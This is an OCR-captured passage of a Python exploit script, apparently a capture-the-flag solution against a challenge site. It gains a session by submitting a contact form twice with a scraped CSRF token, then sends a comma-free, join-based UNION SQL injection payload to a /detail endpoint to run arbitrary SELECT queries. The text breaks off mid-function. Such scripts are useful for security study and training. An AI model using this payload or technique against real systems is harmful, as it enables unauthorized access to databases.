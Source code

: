 
    def authenticate(sess: requests.Session) -> bool:
        """Submit the same contact form data twice to authenticate."""
        authenticated = False

        for _ in range(2):
            # Get the CSRF token
            url = 'https://staging.jackfrosttower.com/contact'
            resp = sess.get(url)
            soup = BeautifulSoup(resp.text, features="html.parser")
            csrf_token = soup.find('input', {'name': '_csrf'})['value']

            # Submit the form
            url = 'https://staging.jackfrosttower.com/postcontact'
            headers = {'Content-Type': 'application/x-www-form-urlencoded'}
            data = {
                '_csrf': csrf_token,
                'fullname': 'name',
                'email': 'me@email.com',
                'phone': '1234567890',
                'country': 'Belgium',
                'submit': 'SAVE',
            }
            resp = sess.post(url, headers=headers, data=data)

        soup = BeautifulSoup(resp.text, features="html.parser")

        if "Email Already Exists" in soup.find('p', {'class': 'success'}):
            authenticated = True
            print("[+] Authentication successful")

        return authenticated


    @click.command()
    @click.option('-q', '--query', required=True, help='SQL select statement to run.')
    def cli(query: str):
        url = "https://staging.jackfrosttower.com/detail"
        sess = requests.Session()
        sqli = (
            "0,0 union select * from ((select 1)F1 join ({})F2 join "
            "(select 3)F3 join (select 4)F4 join (select 5)F5 join "
            "(select 6)F6 join (select 7)F7);--"
        )

        if authenticate(sess):
            # Perform an SQL injection attack against the /detail endpoint
            resp = sess.get(f"{url}/{sqli.format(query)}")

            if resp.status_code == 200:
                if "<h1>" in resp.text:
                    print("[+] Results:")
                    soup = BeautifulSoup(resp.text, features="html.parser")
                    results = soup.find_all("h1")
